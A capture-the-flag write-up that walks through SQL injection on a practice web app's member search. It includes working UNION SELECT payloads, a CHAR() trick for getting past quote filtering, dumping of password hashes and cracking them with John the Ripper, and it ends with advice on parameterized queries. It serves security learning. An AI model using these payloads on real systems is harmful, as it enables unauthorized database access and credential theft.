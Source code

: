 ## [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

On the [Members](http://localhost:8080/?page=member) page, there is an input field to search for members by ID. For example, with input `3`, we get:

```
ID: 3
First name: three
Surname : me
```

The first thing to try in any input field is an SQL injection.

Trying `'` as the input, we get the following output: `You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1`. This confirms that we are directly querying the database, without proper input validation.

Since the output has 2 fields, we can try an `UNION` statement such as `42 UNION SELECT table_name, table_type FROM information_schema.tables--`, which shows all the columns from all the tables:

```
ID: 42 UNION SELECT table_name, table_type FROM information_schema.tables--
First name: CHARACTER_SETS
Surname : SYSTEM VIEW

...

ID: 42 UNION SELECT table_name, table_type FROM information_schema.tables--
First name: CLIENT_STATISTICS
Surname : SYSTEM VIEW

...

ID: 42 UNION SELECT table_name, table_type FROM information_schema.tables--
First name: users
Surname : BASE TABLE
```

To get the columns from the table `users` only, we tried the following command: `42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users'`, which gives the following output: `You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'users\'' at line 1`. It looks like the server has very basic protection with quotes.

We can bypass it by creating the string with the SQL `CHAR` function: `42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)`. It works and we get the following columns:

```
ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : user_id

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : first_name

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : last_name

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : town

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : country

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : planet

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : Commentaire

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : countersign
```

We query all the columns, `Commentaire` and `countersign` seem to be the most interesting. `42 UNION SELECT Commentaire, countersign FROM users--` →

```
ID: 42 UNION SELECT Commentaire, countersign FROM users--
First name: Je pense, donc je suis
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9

ID: 42 UNION SELECT Commentaire, countersign FROM users--
First name: Aamu on iltaa viisaampi.
Surname : 60e9032c586fb422e2c16dee6286cf10

ID: 42 UNION SELECT Commentaire, countersign FROM users--
First name: Dublin is a city of stories and secrets.
Surname : e083b24a01c483437bcf4a9eea7c1b4d

ID: 42 UNION SELECT Commentaire, countersign FROM users--
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

We create a file in the format expected by John the Ripper: `user:5ff9d0165b4f92b14994e5c685cdce28`

and after using john the ripper :

```console
$ john --format=Raw-MD5 sql_injection_members/resources/countersign
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=20
Proceeding with single, rules:Single
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:00 DONE 1/3 (2025-05-24 14:42) 0g/s 49550p/s 49550c/s 49550C/s User1909..User1900
Proceeding with wordlist:/tmp/tmpmu9v917t/password.lst
Enabling duplicate candidate password suppressor
Disabling duplicate candidate password suppressor
FortyTwo         (user)
1g 0:00:00:28 DONE 2/3 (2025-05-24 14:42) 0.03455g/s 15335Kp/s 15335Kc/s 15335KC/s YankeE23..PitchEr1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Now we we lower case to: `fortytwo` and encode it using SHA256 as asked:

```console
$ echo -n fortytwo | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```

To defend against SQL injections, use parameterized queries (also known as prepared statements) everywhere so the ORM, not your code, handles quoting and type-checking. Escaping tricks like replacing quotes only give a false sense of security—an attacker will just switch to `0x`, `CHAR()` or similar tricks.

